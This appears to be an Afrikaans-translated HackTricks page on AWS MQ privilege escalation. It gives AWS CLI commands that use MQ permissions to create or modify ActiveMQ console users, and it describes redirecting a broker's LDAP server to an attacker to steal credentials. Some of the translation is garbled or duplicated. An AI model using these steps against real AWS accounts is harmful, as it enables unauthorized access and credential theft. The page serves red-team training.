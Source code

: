 # AWS - MQ Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MQ

Vir meer inligting oor MQ kyk:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Met daardie toestemmings kan jy **'n nuwe gebruiker in 'n ActimeMQ broker skep** (dit werk nie in RabbitMQ nie):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potensiële Impak:** Toegang tot sensitiewe inligting deur ActiveMQ te navigeer

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Met daardie toestemmings kan jy **'n nuwe gebruiker in 'n ActimeMQ broker skep** (dit werk nie in RabbitMQ nie):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potensiële Impak:** Toegang tot sensitiewe inligting deur ActiveMQ te navigeer

### `mq:ListBrokers`, `mq:UpdateBroker`

As 'n broker **LDAP** vir outorisering met **ActiveMQ** gebruik. Dit is moontlik om die **konfigurasie** van die LDAP-bediener wat gebruik word, te **verander** na **een wat deur die aanvaller beheer word**. Op hierdie manier sal die aanvaller in staat wees om **alle geloofsbriewe wat deur LDAP gestuur word, te steel**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
As jy op een of ander manier die oorspronklike akrediteerbare wat deur ActiveMQ gebruik is, kan vind, kan jy 'n MitM uitvoer, die krediete steel, dit in die oorspronklike bediener gebruik, en die antwoord stuur (misschien net die gesteelde krediete hergebruik, kan jy dit doen).

**Potensiële Impak:** Steel ActiveMQ akrediteerbare

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
